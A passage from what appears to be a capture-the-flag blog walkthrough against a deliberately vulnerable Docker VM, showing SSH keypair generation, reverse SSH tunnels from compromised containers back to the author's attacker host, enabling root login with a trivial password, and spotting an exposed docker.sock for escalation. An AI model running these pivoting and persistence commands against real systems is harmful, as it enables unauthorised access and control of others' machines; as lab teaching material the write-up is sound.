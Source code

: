 We need to generate keypair:

```sh
$ yes | ./ssh-keygen -P '' -f /var/www/html/ctf/id_rsa -t rsa
```

Now we’ve got **id_rsa** (private key) and **id_rsa.pub** (public). Let’s grant access to that new public key by adding it to **~/.ssh/authorized_keys** on attacker machine (our own).

Now, creating reverse SSH tunnel is straightforward:

```sh
$ ./ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -o GlobalKnownHostsFile=/dev/null -v -i id_rsa -R 8022:172.18.0.2:8022 -fN oioki@192.168.2.12
```

(here 192.168.2.12 is our own host)

Now we can connect to Docker-SSH just by opening localhost:8022 in our browser:

![Docker-SSH](/assets/blog/vulnerable-docker-vm/ctf7.png)

Seems like, 172.18.0.2:8022 gives web access to console of 172.18.0.3 container (database server).

Let’s install usual SSH server for more convenient access:

```sh
$ apt-get update
$ apt-get install vim openssh-client openssh-server
```

Remove unneeded restrictions and change password for root:

```sh
$ vim /etc/ssh/sshd_config
...
PermitRootLogin yes
UsePrivilegeSeparation no
$ passwd
(type 123, for example)
$ /usr/sbin/sshd
```

Now SSH server is working, but again, it is in the private network. Applying the same solution, reverse SSH tunnel:

```sh
$ ssh -R 2222:127.0.0.1:22 -fN oioki@192.168.2.12
```

(here we should enter password for our attacker host)
At last, we’ve got “normal” SSH access to this host:

![Proper SSH access achieved](/assets/blog/vulnerable-docker-vm/ctf8.png)

Stalkering the server, I found interesting file **/var/run/docker.sock**. Seems like, unix socket of the host docker process appeared inside the container somehow. This is huge vulnerability.

To exploit it, let’s use some client capable of working with unix sockets, for example curl or netcat:
